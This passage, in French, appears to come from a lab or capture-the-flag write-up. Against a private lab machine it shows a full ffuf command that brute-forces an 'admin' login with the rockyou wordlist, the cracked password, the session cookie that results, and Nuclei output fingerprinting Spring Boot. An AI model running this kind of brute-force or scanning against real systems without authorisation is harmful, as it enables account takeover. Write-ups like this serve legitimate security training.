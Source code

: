 Finalement, faute de trouver quelque chose, j'ai brute-forcé un hypothétique compte `admin` :

```console
$ ffuf -u http://192.168.56.138:8080/login -d "username=admin&password=FUZZ" -X POST  -H "Content-type: application/x-www-form-urlencoded" -w /tmp/rockyou.txt -fr Wrong -H "Referer: http://192.168.56.138:8080/login.html"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.138:8080/login
 :: Wordlist         : FUZZ: /tmp/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Referer: http://192.168.56.138:8080/login.html
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Wrong
________________________________________________

123457                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 749ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```

Avec le mot de passe trouvé, on peut se connecter et on arrive sur la page `/success` qui n'offre aucune action...

Je note qu'un cookie a été défini pour notre session.

```
admin:S+jYmswX8+Lnl8Y+X7auaMMN5AHvFyKZMJluN/qPCFI=
```

Si je supprime le cookie et me reconnecte, j'obtiens le même cookie. Mais vu que l'on dispose du mot de passe, difficile de croire qu'il faille investiguer de ce côté.

J'ai lancé `Nuclei` sur le site, qui a détecté via le favicon l'emploi du framework de développement `Spring-Boot`.

```
[favicon-detect:spring-boot] [http] [info] http://192.168.56.139:8080/favicon.ico [116323821]
[favicon-detect:Springboot Actuators] [http] [info] http://192.168.56.139:8080/favicon.ico [116323821]
[favicon-detect:Spring Boot H2 Database] [http] [info] http://192.168.56.139:8080/favicon.ico [116323821]
[spring-detect] [http] [info] http://192.168.56.139:8080/error
[springboot-actuator:favicon] [http] [info] http://192.168.56.139:8080/favicon.ico
```
